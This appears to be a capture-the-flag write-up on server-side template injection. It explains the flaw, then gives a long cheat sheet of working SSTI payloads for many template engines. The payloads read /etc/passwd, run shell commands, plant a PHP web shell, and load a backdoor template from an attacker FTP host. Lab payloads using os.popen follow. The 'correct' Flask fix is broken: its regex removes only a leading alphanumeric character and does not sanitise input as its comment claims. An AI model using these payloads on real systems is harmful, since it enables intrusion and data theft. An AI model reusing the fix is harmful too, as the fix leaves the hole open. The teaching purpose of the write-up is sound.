 # Report on THM SSTI room 

![completed](completed.png)

<h2>What is SSTI</h2>
Template engines are designed to generate web pages by combining fixed templates with volatile data. 
Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data.
This allows attackers to inject arbitrary template directives in order to manipulate the template engine, 
often enabling them to take complete control of the server. 
As the name suggests, server-side template injection payloads are delivered and evaluated server-side,
potentially making them much more dangerous than a typical client-side template injection. 

SSTI basically works because Template Engines can evaluate operations using certain special operators like ```${{<%[%'"}}%\```. 


So if user input is directly passed without sanitization and not in the proper syntax such that only data gets passed, then SSTI vulnerabilities arise.
Eg:

```
from flask import Flask, render_template_string
app = Flask(__name__)

@app.route("/profile/<user>")
def profile_page(user):
    template = f"<h1>Welcome to the profile of {user}!</h1>"

    return render_template_string(template)

app.run()

```


Here input is neither sanitized nor passed only as data .

The correct way should be something like:
            
```
import re

# Remove everything that isn't alphanumeric
user = re.sub("^[A-Za-z0-9]", "", user)
template = "<h1>Welcome to the profile of {{ user }}!</h1>"
return render_template_string(template, user=user)
```

<h2>Exploitation:</h2>

To exploit a SSTI vulnerability we first need to identify the template engine. 
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters.
 As a result, it can be relatively simple to create probing payloads to test which template engine is being use
The following decision tree can help with this.

![tree](tree.png)

To follow the decision tree, start at the very left and include the variable in your request. Follow the arrow depending on the output:

    Green arrow - The expression evaluated (i.e 49)
    Red arrow - The expression is shown in the output (i.e ${7*7})

But the same payload can sometimes return a successful response in more than one template language. For example, the payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2. 
Therefore, it is important not to jump to conclusions based on a single successful response. 

Got this very useful repo while doing this:

https://github.com/swisskyrepo/PayloadsAllTheThings

An excerpt for some common template engines:

```
Cheatsheet

--------------------------------------------------------------------Polyglot:
${{<%[%'"}}%\
--------------------------------------------------------------------FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
--------------------------------------------------------------------
(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
--------------------------------------------------------------------Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
--------------------------------------------------------------------Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
--------------------------------------------------------------------
Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
--------------------------------------------------------------------
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
--------------------------------------------------------------------Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
--------------------------------------------------------------------Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------

```

Some payloads used earlier:

{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}} - Gives list of files in directory

{{request.application.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}

{{__self__.__init__.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}

{% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}

Further Refrences:
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings

